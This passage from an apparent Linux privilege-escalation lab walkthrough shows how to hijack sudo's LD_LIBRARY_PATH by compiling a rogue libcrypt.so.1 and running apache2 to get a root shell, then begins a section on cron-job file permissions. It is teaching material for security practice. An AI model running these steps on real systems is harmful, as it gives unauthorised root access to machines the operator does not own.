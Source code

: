 - Create a shared object with the same name as one of the listed libraries (libcrypt.so.1) using the code located at `/home/user/tools/sudo/library_path.c`:

    ```bash
    user@debian:~$ gcc -o /tmp/libcrypt.so.1 -shared -fPIC /home/user/tools/sudo/library_path.c
    ```

- Run apache2 using sudo, while settings the LD_LIBRARY_PATH environment variable to /tmp (where we output the compiled shared object):

    ```bash
    user@debian:~$ sudo LD_LIBRARY_PATH=/tmp apache2
    apache2: /tmp/libcrypt.so.1: no version information available (required by /usr/lib/libaprutil-1.so.0)
    root@debian:/home/user# 
    ```

- A root shell should spawn. Exit out of the shell. Try renaming `/tmp/libcrypt.so.1` to the name of another library used by apache2 and re-run apache2 using sudo again. Did it work? If not, try to figure out why not, and how the `library_path.c` code could be changed to make it work.

    ```bash
    user@debian:~$ gcc -o /tmp/libapr-1.so.0 -shared -fPIC /home/user/tools/sudo/library_path.c
    user@debian:~$ sudo LD_LIBRARY_PATH=/tmp apache2
    apache2: /tmp/libcrypt.so.1: no version information available (required by /usr/lib/libaprutil-1.so.0)
    apache2: symbol lookup error: /usr/lib/libaprutil-1.so.0: undefined symbol: apr_pool_cleanup_null
    ```

## Cron Jobs - File Permissions
Cron jobs are programs or scripts which users can schedule to run at specific times or intervals. Cron table files (crontabs) store the configuration for cron jobs. The system-wide crontab is located at `/etc/crontab`.

- View the contents of the system-wide crontab:

    ```bash
    user@debian:~$ cat /etc/crontab
    # /etc/crontab: system-wide crontab
    # Unlike any other crontab you don't have to run the `crontab'
    # command to install the new version when you edit this file
    # and files in /etc/cron.d. These files also have username fields,
    # that none of the other crontabs do.
